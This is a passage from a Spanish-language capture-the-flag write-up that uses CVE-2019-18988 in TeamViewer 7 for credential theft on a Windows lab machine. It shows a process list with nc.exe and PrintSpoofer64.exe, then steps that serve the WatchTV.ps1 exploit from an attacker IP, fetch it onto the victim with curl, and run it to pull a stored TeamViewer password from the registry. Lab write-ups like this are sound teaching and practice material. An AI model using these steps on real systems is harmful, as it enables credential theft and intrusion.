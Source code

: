 ```
conhost.exe                   3892                            0     10,560 K
win32calc.exe                 8072                            0     12,108 K
nc.exe                        4348                            0      3,496 K
conhost.exe                   5216                            0     12,300 K
conhost.exe                   8056                            0     12,288 K
PrintSpoofer64.exe            8784                            0      3,704 K
powershell.exe                8896                            0    136,040 K
nc.exe                        9696                            0      4,704 K
conhost.exe                   8848                            0     12,280 K
cmd.exe                      10208                            0      4,612 K
svchost.exe                   8564                            0      6,228 K
tasklist.exe                  9568                            0      7,784 K
```

He visto que la `versión` de `TeamViewer` es la `7`

```
c:\Program Files (x86)\TeamViewer\Version7>
```

Esta `versión` es `vulnerable` al `CVE-2019-18988`, para `explotar` esta `vulnerabilidad` nos `descargamos` este `exploit` [https://github.com/zaphoxx/WatchTV/tree/master](https://github.com/zaphoxx/WatchTV/tree/master). Una vez descargado nos montamos un `servidor` con `python` en la misma ruta donde se encuentra el binario

```
# python -m http.server 80
```

Nos `descargamos` el `binario` en la máquina víctima

```
PS C:\Windows\Temp\Privesc> curl -O http://10.10.16.35/WatchTV.ps1
```

`Importamos` el `módulo` descargado, debemos usar una `powershell` para esto

```
PS C:\Windows\Temp\Privesc> Import-Module ./WatchTV.ps1
Import-Module ./WatchTV.ps1
```

`Obtenemos` una `contraseña`

```
PS C:\Windows\Temp\Privesc> Get-TeamViewPasswords
Get-TeamViewPasswords

#################L   .###############u
##################N.@################ *
##################################### '>.n=L
###############################RR#### 'b"  9
###########################R#"  .#### @   .*
########################^   .e#######P   e"
#####################R#    o########P   @
###################P" .e> 4#" '####F  .F
#################R  .###& '#   ####  .#>
#################b.o#####  #N  "##" ."'>
#########################  ##N  "^ .# '>
############## "########R  ###&    ## '>
##############  E"##P^9#E  ####   8## '>
##############  E  "  9#F  ####k .### '>
##############  E     9#N  ########## '>
##############  E     9##.u########## '>
############## o"     9############## d
**************#       ***************
ManniTV

[+] HKLM:\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7
```